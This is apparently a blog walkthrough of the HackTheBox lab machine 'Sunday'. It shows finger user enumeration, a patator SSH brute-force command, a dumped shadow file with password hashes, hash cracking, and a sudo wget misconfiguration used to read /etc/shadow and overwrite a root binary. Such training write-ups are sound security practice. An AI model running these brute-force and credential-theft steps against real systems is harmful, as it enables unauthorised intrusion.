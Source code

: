 ```yaml
---
title: HackTheBox - Sunday
date: 2021-01-04 12:13:03 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, Solaris, SunOS, finger, guessing, patator, hashcat, sudo misconfiguration, GTFOBins, wget, writeup, oscp-prep]
image: /assets/img/htb/machines/linux/easy/sunday/Sunday.png
---
```


## Foothold

### `nmap` scan

```
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Sunday-full-port-scan.txt 10.10.10.76
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-04 09:27 CET
Warning: 10.10.10.76 giving up on port because retransmission cap hit (1).
Stats: 0:00:06 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 20.79% done; ETC: 09:27 (0:00:19 remaining)
Nmap scan report for 10.10.10.76
Host is up (0.11s latency).
Not shown: 64580 filtered ports, 950 closed ports
PORT      STATE SERVICE VERSION
79/tcp    open  finger  Sun Solaris fingerd
|_finger: No one logged on\x0D
111/tcp   open  rpcbind 2-4 (RPC #100000)
22022/tcp open  ssh     SunSSH 1.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 d2:e5:cb:bd:33:c7:01:31:0b:3c:63:d9:82:d9:f1:4e (DSA)
|_  1024 e4:2c:80:62:cf:15:17:79:ff:72:9d:df:8b:a6:c9:ac (RSA)
41462/tcp open  unknown
49906/tcp open  unknown
Service Info: OS: Solaris; CPE: cpe:/o:sun:sunos
```

### finger (port 79)

We can use pentestmonkey's script [finger-user-enum.pl](https://raw.githubusercontent.com/pentestmonkey/finger-user-enum/master/finger-user-enum.pl) to do our enumeration:

![finger users top usernames](/assets/img/htb/machines/linux/easy/sunday/finger-users.png)

Okay, we know there iis at least 5 users:

1. **root**
2. **admin**
3. **adm**
4. **mysql**
5. **user**

While figuring out what to do next on [Hacktricks - pentesting finger](https://book.hacktricks.xyz/pentesting/pentesting-finger), I ran `finger-user-enum.pl` a second time with a bigger wordlist:

> We could also use **metasploit** with `use auxiliary/scanner/finger/finger_users`.

```bash
$ ./finger-user-enum.pl -U /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames-dup.txt -t $TARGET
```

![finger users more usernames](/assets/img/htb/machines/linux/easy/sunday/finger-users-2.png)

From the screenshot above, we can notice tree things:

1. We got more valid usernames
2. The user `sunny` seems to have been connected from a remote IP address `10.10.10.4`
3. The user `root` seems to have been connected from the local machine `sunday`

### SSH (port 22022)

#### Bruteforce old SSH with `patator`

Probably due to an exchange algorithm error, we'll use `patator` instead of using `hydra` to bruteforce ssh.

```bash
$ patator ssh_login host=$TARGET port=22022 user=sunny password=FILE0 0=/usr/share/wordlists/seclists/Passwords/probable-v2-top1575.txt persistent=0 -x ignore:mesg='Authentication failed
.' --timeout=5
```

Valid credentials found/guessed:
- **username**: `sunny`
- **password**: `sunday`

## User (sunny)

```bash
$ ssh -p 22022 sunny@$TARGET
Unable to negotiate with 10.10.10.76 port 22022: no matching key exchange method found. Their offer: gss-group1-sha1-toWM5Slw5Ew8Mqkay+al2g==,diffie-hellman-group-exchange-sha1,diffie-hellman-group1-sha1

$ ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -p 22022 sunny@$TARGET
The authenticity of host '[10.10.10.76]:22022 ([10.10.10.76]:22022)' can't be established.
RSA key fingerprint is SHA256:TmRO9yKIj8Rr/KJIZFXEVswWZB/hic/jAHr78xGp+YU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.10.76]:22022' (RSA) to the list of known hosts.
Password: 
Last login: Tue Apr 24 10:48:11 2018 from 10.10.14.4
Sun Microsystems Inc.   SunOS 5.11      snv_111b        November 2008
sunny@sunday:~$ 
```

There is another user called `sammy` who has a home directory:

```bash
sunny@sunday:~$ cd ..
sunny@sunday:/export/home$ ls -la
total 8
drwxr-xr-x  4 root  root   4 2018-04-15 20:18 .
drwxr-xr-x  3 root  root   3 2018-04-15 19:44 ..
drwxr-xr-x 18 sammy staff 27 2020-07-31 18:00 sammy
drwxr-xr-x 18 sunny other 30 2018-04-15 20:52 sunny
```

Let's run `sudo -l`:

```bash
sunny@sunday:/tmp$ sudo -l
User sunny may run the following commands on this host:
    (root) NOPASSWD: /root/troll
```

Since we can only execute it, I will not spend time on it _(for the moment)_.

On `/`, there is `backup` directory which we have access to:

```bash
sunny@sunday:/tmp$ cd /backup
sunny@sunday:/backup$ ls -la
total 5
drwxr-xr-x  2 root root   4 2018-04-15 20:44 .
drwxr-xr-x 26 root root  27 2020-07-31 17:59 ..
-r-x--x--x  1 root root  53 2018-04-24 10:35 agent22.backup
-rw-r--r--  1 root root 319 2018-04-15 20:44 shadow.backup
sunny@sunday:/backup$ cat shadow.backup
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636:::::
```

> `$5$` is for SHA-256 hash.

###  "Cracking" sammy's password with `hashcat`

According to the manpage of `hashcat`, **7400** is SHA-256 mode:

![74400 sha256 unix](/assets/img/htb/machines/linux/easy/sunday/man-hashcat.png)

![hashcat](/assets/img/htb/machines/linux/easy/sunday/hashcat.png)

Sammy's password is `cooldude!`.

## User (sammy)

![sammy ssh](/assets/img/htb/machines/linux/easy/sunday/sammy-ssh.png)

- flag:

```bash
sammy@sunday:~$ cd Desktop
sammy@sunday:~/Desktop$ cat user.txt
a3d9498027ca5187ba1793943ee8a598
```

- `sudo -l`:

```bash
sammy@sunday:~/Desktop$ sudo -l
User sammy may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/wget
sammy@sunday:~/Desktop$
```

Let's check `wget` on [GTFOBins - wget](https://gtfobins.github.io/gtfobins/wget/) to see how we can privesc:

![wget gtfobins](/assets/img/htb/machines/linux/easy/sunday/wget-gtfobins.png)

We cannot use it to privesc! 

Even if we can download a malicious file and then execute it, it will not be done as **root** but as **sammy**. This is because of the pipe  (`|`) as you can see on the image below:

![reverse shell failed](/assets/img/htb/machines/linux/easy/sunday/reverse-shell-failed.png)

However there are other things that we can probably do.

1. We can **read** every file: 

![/etc/shadow](/assets/img/htb/machines/linux/easy/sunday/etc-shadow.png)

2. We can **overwrite** the `/root/troll` binary

## Root

![root](/assets/img/htb/machines/linux/easy/sunday/root.png)

- flag:

```bash
root@sunday:~# cd /root
root@sunday:/root# cat root.txt
fb40fab61d99d37536daeec0d97af9b8
```
___

## Useful links

- [pentestmokey - finger enum](https://github.com/pentestmonkey/finger-user-enum)
- [hacktricks - pentesting finger](https://book.hacktricks.xyz/pentesting/pentesting-finger)
- [Hashcat - example hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)